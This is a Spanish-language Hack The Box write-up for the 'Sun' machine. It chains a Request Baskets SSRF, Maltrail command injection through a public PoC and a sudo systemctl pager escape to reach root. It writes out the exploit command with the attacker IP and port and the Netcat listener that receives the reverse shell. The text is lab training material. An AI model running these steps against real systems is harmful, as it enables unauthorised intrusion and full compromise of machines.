





# Sun — Hack The Box Write-up

- **Autor:** Alex09060
- **Plataforma:** Hack The Box
- **Dificultad:** Pendiente de confirmar en la ficha oficial de HTB.
- **Sistema operativo:** Linux

## Resumen

En esta máquina conseguí acceso inicial aprovechando una vulnerabilidad SSRF en Request Baskets para llegar a una instancia interna de Maltrail. Desde ahí exploté una vulnerabilidad de inyección de comandos que me permitió obtener una shell como el usuario `puma`. Por último, aproveché los permisos de `sudo` sobre `systemctl` y el comportamiento del paginador para escalar privilegios hasta `root`.

Durante el proceso utilicé Nmap, Request Baskets, un PoC de Maltrail, Netcat y herramientas propias del sistema.

## 1. Enumeración

### 1.1. Escaneo de puertos

Lo primero que hice fue realizar un escaneo TCP de todos los puertos para identificar qué servicios estaban disponibles en la máquina.

```bash
sudo nmap -p- -sS --min-rate 4000 10.129.229.26 -oG ports
```

El escaneo devolvió los siguientes resultados:

| Puerto | Estado | Servicio identificado por Nmap |
|---|---|---|
| `22/tcp` | open | ssh |
| `80/tcp` | filtered | http |
| `8338/tcp` | filtered | unknown |
| `55555/tcp` | open | unknown |

Los puertos que aparecieron abiertos fueron `22/tcp` y `55555/tcp`. Los puertos `80/tcp` y `8338/tcp` aparecieron filtrados.



### 1.2. Request Baskets

Al acceder al servicio del puerto `55555` encontré la interfaz de **Request Baskets**. En el pie de página aparecía la versión `1.2.1`.



Esta versión está relacionada con **CVE-2023-27163**, una vulnerabilidad SSRF (*Server-Side Request Forgery*) que permite utilizar la aplicación para realizar peticiones a otros recursos de red.

Referencia: [CVE-2023-27163 — MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-27163).

## 2. Acceso inicial

### 2.1. Configuración de Request Baskets

Para aprovechar la vulnerabilidad, creé una cesta llamada `ssrf` desde la propia interfaz web.


Después configuré la cesta para que reenviase las peticiones al servicio HTTP local:

- **Forward URL:** `http://127.0.0.1:80`
- **Proxy Response:** activado.
- **Expand Forward Path:** activado.
- **Basket Capacity:** `200`.

Con esta configuración, Request Baskets actúa como intermediario: recibe las peticiones y las reenvía al servicio local indicado en `Forward URL`, devolviendo después la respuesta.



Al entrar en la cesta a través de `/ssrf`, pude acceder al servicio web interno. Allí encontré **Maltrail**, cuya versión era `0.53`.

### 2.2. Explotación de Maltrail

La versión de Maltrail identificada es vulnerable a **CVE-2025-34073**, una vulnerabilidad de inyección de comandos que permite ejecutar comandos sin autenticación mediante una petición al endpoint `/login`.

Para explotarla utilicé el siguiente PoC: [Hummingbird-Maltrail-RCE-PoC](https://github.com/SethJGibson/Hummingbird-Maltrail-RCE-PoC).

Ejecuté el script con mi dirección IP, el puerto de escucha y la URL de la cesta que había configurado anteriormente:

```bash
python3 exploit.py 10.10.14.111 443 http://10.129.229.26:55555/ssrf/
```

Los argumentos corresponden a:

- `10.10.14.111`: dirección IP de mi máquina atacante.
- `443`: puerto en el que esperaba recibir la conexión inversa.
- `http://10.129.229.26:55555/ssrf/`: URL de la cesta de Request Baskets.

Al ejecutar el script aparecieron varios avisos `SyntaxWarning` relacionados con secuencias de escape en cadenas de texto. A pesar de esos avisos, el programa continuó y mostró el mensaje `Executing exploit...`.


Referencia: [CVE-2025-34073 — INCIBE](https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2025-34073).

### 2.3. Shell inversa

Antes de lanzar el exploit, preparé un listener de Netcat en el puerto `443` para recibir la conexión inversa:

```bash
sudo nc -nvlp 443
```

Después de ejecutar el PoC recibí una conexión desde la máquina víctima. La shell se abrió sin una TTY interactiva y devolvió el siguiente mensaje:

```text
/bin/sh: 0: can't access tty; job control turned off
```



Con esto conseguí acceso inicial a la máquina como el usuario `puma`.

## 3. Acceso como usuario

Una vez dentro, comprobé el directorio personal del usuario `puma` y localicé la flag `user.txt` en `/home/puma`.

Para leerla utilicé:

```bash
cat user.txt
```

No incluyo el contenido de la flag para evitar publicar su valor.

## 4. Escalada de privilegios

### 4.1. Enumeración de permisos sudo

El siguiente paso fue comprobar qué comandos podía ejecutar el usuario `puma` con privilegios elevados. Para ello utilicé:

```bash
sudo -l
```

Entre los permisos disponibles encontré esta regla:

```text
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Esto significa que podía ejecutar `systemctl status trail.service` como cualquier usuario, incluido `root`, sin necesidad de introducir una contraseña.



### 4.2. Versión de systemd

Antes de continuar, comprobé la versión de `systemd` instalada:

```bash
systemctl --version
```

El sistema tenía instalada la versión:

```text
systemd 245 (245.4-4ubuntu3.22)
```


### 4.3. Abuso del paginador

El comando `systemctl status` puede mostrar su salida utilizando un paginador como `less`. En determinadas condiciones, este comportamiento permite salir del paginador y acceder a una shell con los mismos privilegios con los que se ejecutó el comando. Este comportamiento está relacionado con **CVE-2023-26604**.

Como podía ejecutar el comando mediante `sudo` sin contraseña, lancé:

```bash
sudo systemctl status trail.service
```

Al ejecutarlo como `root`, el paginador se abrió con privilegios elevados. Aproveché ese comportamiento para escapar del paginador y obtener una shell privilegiada.

La comprobación final confirmó que había conseguido acceso como `root`. Después localicé la flag `root.txt` en `/root` y la consulté con:

```bash
cat /root/root.txt
```

No incluyo el valor de la flag en este write-up.

Referencia: [CVE-2023-26604 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-26604).

## 5. Conceptos clave

Durante la resolución de esta máquina trabajé con varias técnicas y conceptos:

- **Enumeración con Nmap:** escaneo de puertos TCP y reconocimiento inicial de los servicios expuestos.
- **SSRF:** utilicé Request Baskets para acceder a un servicio web que escuchaba en la propia máquina.
- **Inyección de comandos:** aproveché la vulnerabilidad de Maltrail para ejecutar comandos sin autenticación.
- **Shell inversa:** establecí una conexión desde la máquina víctima hacia mi equipo mediante Netcat.
- **Enumeración de sudo:** utilicé `sudo -l` para localizar un comando que podía ejecutar con privilegios de administrador.
- **Escalada mediante el paginador:** aproveché el comportamiento de `systemctl status` y `less` para conseguir una shell como `root`.

## 6. Referencias

- [Hack The Box](https://www.hackthebox.com/)
- [CVE-2023-27163 — Request Baskets SSRF](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-27163)
- [CVE-2025-34073 — Maltrail command injection](https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2025-34073)
- [Hummingbird-Maltrail-RCE-PoC](https://github.com/SethJGibson/Hummingbird-Maltrail-RCE-PoC)
- [CVE-2023-26604 — systemd](https://nvd.nist.gov/vuln/detail/CVE-2023-26604)

## 7. Datos pendientes de confirmar

- **Dificultad oficial:** queda pendiente de comprobar en la ficha de la máquina en Hack The Box.
- **Sistema operativo:** el entorno es Linux. La versión de `systemd` identificada es `245.4-4ubuntu3.22`.
- **Servicios y versiones:** el escaneo inicial identifica los puertos abiertos `22/tcp` y `55555/tcp`. No se incluye un escaneo de versiones con `-sV` para SSH u otros servicios.
- **Request Baskets:** la interfaz identifica la versión `1.2.1`.
- **Maltrail:** se trabajó con la versión `0.53`.
- **Tratamiento de la TTY:** no se ha incluido una secuencia de comandos porque no se dispone del comando exacto utilizado.
- **Escape del paginador:** el procedimiento general está documentado, pero no se especifica la combinación exacta de teclas utilizada.
